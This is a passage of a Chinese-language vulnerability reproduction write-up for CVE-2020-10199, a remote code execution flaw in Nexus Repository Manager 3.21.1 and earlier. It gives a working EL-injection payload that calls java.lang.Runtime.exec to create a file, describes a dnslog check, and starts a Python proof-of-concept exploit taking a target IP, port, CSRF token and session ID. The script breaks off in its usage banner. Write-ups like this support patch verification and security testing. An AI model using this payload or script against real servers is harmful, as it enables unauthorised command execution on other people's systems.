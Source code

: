 ### （2）尝试创建文件

    $\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('touch /tmp/success')}

![2.png](./resource/(CVE-2020-10199)NexusRepositoryManager远程代码执行漏洞/media/rId27.png)回到漏洞环境检查，文件夹success创建成功![3.png](./resource/(CVE-2020-10199)NexusRepositoryManager远程代码执行漏洞/media/rId28.png)

### （3）dnslog测试

![4.png](./resource/(CVE-2020-10199)NexusRepositoryManager远程代码执行漏洞/media/rId30.png)漏洞存在![5.png](./resource/(CVE-2020-10199)NexusRepositoryManager远程代码执行漏洞/media/rId31.png)

### poc&exp

> 影响版本 \<= 3.21.1
> 需要用户登录后提供csrf和sessionid（登录成功后从浏览器复制），代码执行目前无法回显

#### poc

    +----------------------------------------------------------------------------------------------------------+
    + DES: by zhzyker as https://github.com/zhzyker/exphub                                                     +
    +      CVE-2020-10199 need username & password                                                             +
    +----------------------------------------------------------------------------------------------------------+
    + USE: python3 <filename> <ip> <port> <csrf> <sessionid>                                                   +
    + EXP: python3 cve-2020-10199_poc.py 1.1.1.1 8081 0.9567822851573897 edfca15e-c721-45e2-bdef-e8b3c6364ddb  +
    + VER: Nexus Repository Manager OSS/Pro version <= 3.21.1                                                  +
    +----------------------------------------------------------------------------------------------------------+

> Nexus Repository Manager 3 远程命令执行漏洞

    #!/usr/bin/python3
    # -*- coding:utf-8 -*-
    # author:zhzyker
    # from:https://github.com/zhzyker/exphub

    import sys
    import requests
    import json

    if len(sys.argv)!=5:
        print('+----------------------------------------------------------------------------------------------------------+')
        print('+ DES: by zhzyker as https://github.com/zhzyker/exphub                                                     +')
        print('+      CVE-2020-10199 need username & password                                                             +')
        print('+----------------------------------------------------------------------------------------------------------+')
        print('+ USE: python3 <filename> <ip> <port> <csrf> <sessionid>                                                   +')
        print('+ EXP: python3 cve-2020-10199_poc.py 1.1.1.1 8081 0.9567822851573897 edfca15e-c721-45e2-bdef-e8b3c6364ddb  +')